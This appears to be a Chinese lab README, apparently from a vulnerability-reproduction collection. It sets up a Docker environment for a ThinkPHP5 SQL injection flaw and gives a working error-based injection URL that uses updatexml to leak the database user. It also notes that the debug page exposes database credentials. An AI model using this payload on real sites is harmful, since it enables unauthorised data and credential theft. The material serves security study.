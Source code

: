 # ThinkPHP5 SQL注入漏洞 && 敏感信息泄露

运行环境：

```
docker-compose up -d
```

启动后，访问`http://your-ip/index.php?ids[]=1&ids[]=2`，即可看到用户名被显示了出来，说明环境运行成功。

## 漏洞原理

漏洞原理说明：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xz.aliyun.com/t/125

不再赘述。

## 漏洞利用

访问`http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，信息成功被爆出：

![](01.png)

当然，这是一个比较鸡肋的SQL注入漏洞。但通过DEBUG页面，我们找到了数据库的账号、密码：

![](02.png)

这又属于一个敏感信息泄露漏洞。
